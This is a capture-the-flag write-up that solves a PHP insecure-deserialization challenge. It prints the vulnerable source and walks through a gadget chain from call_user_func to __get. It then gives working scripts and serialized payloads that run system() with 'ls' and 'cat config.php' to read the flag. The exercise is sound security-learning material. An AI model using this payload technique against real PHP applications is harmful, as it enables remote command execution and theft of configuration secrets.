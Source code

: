 ## Description
Exploit this host: http://45.122.249.68:10001/

## Solution
### Observation
Open the URL, I got this source code:  
```php
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
```

From the source code, I saw 2 things:  
- The `code` GET parameter is unserialized.  
- The class `Show_color`'s `__destruct` method uses `call_user_func`. The `call_user_func` is used to call a user's function as the name states. The first parameter of `call_user_func` is the function and the remaining parameters (if any) will be passed to that callback function.  

So I need `$this->type->adu` to be a function name and `$this->color` to be a parameter for that function.  

Looking at the `do_nothing` class, we have a `__get` method. In this method, if `$this->why` is set, it returns `$this->i_use_this`; otherwise, `$method` is returned. From here, I thought if `type` in `$this->type->adu` is of type `do_nothing`, `$this->type->adu` will invoke the `__get` method of `do_nothing`. And if I can make this `__get`method return the function name that I want, it will be amazing.  

To make that possible, what I need to do is set something to `$this->why` for a `do_nothing` object and set the function name that I want to invoke to the `$this->i_use_this` attribute.  

So which function do I want to use? - `system()`.  

The reason is that `exec()` and `shell_exec()` do execute a given command but they return the output as a string. For this reason, if I want to *see* the result, I need to `echo` it, which makes things more complicated in this challenge. `system()`, on the other hand, executes a given command, display the result directly, and return the result as a string.  

### Exploit
First, I want to `ls` all the files and directories on the server. So I need to call `system("ls")`. Follow is my script to create a serialized `Show_color` object which will cause the server to execute `ls` on deserialization:
```php
<?php
class Show_color{
    public $color;
    public $type;
}
class do_nothing{
    public $why;
    public $i_use_this;
}

$dn = new do_nothing();
$dn->why = true;
$dn->i_use_this = 'system';

$sc = new Show_color();
$sc->type = $dn;
$sc->color = 'ls';

echo serialize($sc);
?>
```

Run the script to get the serialized string:
```sh
╰─ php ./script.php
O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";b:1;s:10:"i_use_this";s:6:"system";}}
```

Send a GET request to the server with `code=O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:10:"do_nothing":2:{s:3:"why";b:1;s:10:"i_use_this";s:6:"system";}}` and I got `config.php` and `index.php`:  

![image](https://user-images.githubusercontent.com/44528004/138098238-2ea440ed-d0e6-4166-b2aa-904af2eaeca5.png)  

Next, I modify the script a little bit to `cat config.php`.
```php
<?php
class Show_color{
    public $color;
    public $type;
}
class do_nothing{
    public $why;
    public $i_use_this;
}

$dn = new do_nothing();
$dn->why = true;
$dn->i_use_this = 'system';

$sc = new Show_color();
$sc->type = $dn;
$sc->color = 'cat config.php';

echo serialize($sc);
?>
```

The serialized string now is:
```
O:10:"Show_color":2:{s:5:"color";s:14:"cat config.php";s:4:"type";O:10:"do_nothing":2:{s:3:"why";b:1;s:10:"i_use_this";s:6:"system";}}
```

Send to the server and get the flag.  

![image](https://user-images.githubusercontent.com/44528004/138098602-c018e40b-df29-422a-8311-82e7b6194480.png)
> Flag: `flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}`.  
